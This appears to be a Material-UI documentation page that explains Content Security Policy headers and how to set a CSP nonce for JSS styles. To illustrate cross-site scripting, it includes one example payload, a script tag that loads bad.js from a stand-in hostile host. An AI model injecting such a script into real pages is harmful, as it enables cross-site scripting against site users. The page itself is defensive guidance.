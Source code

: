 # Content Security Policy

Starting in JSS version 9.6.0, Material-UI supports Content Security Policy headers.

## What is CSP and why is it useful?

Basically, CSP mitigates cross site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://website.example` the csp header `default-src: 'self';` will allow all assets that are located at `https://website.example/*` and deny all others. If there is section of your website that is vunrible to XSS where unescaped user input is displayed, an attacker could input:

```
<script src="https://hostile.example/bad.js"></script>
```

Although, with a secure CSP header, the browser will not load this script.

You can read more about CSP [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## How does one implement CSP?

In order to use CSP with Material-UI (and JSS), you need to set a `style-src` nonce in the meta tag like so:

```
<meta property="csp-nonce" content="longAndRandomStringGeneratedByServerUponEachRequest">
```

If you are new to CSP, this will probably not make much sense. [JSS has a great tutorial on how to achieve this.](https://github.com/cssinjs/jss/blob/master/docs/csp.md)
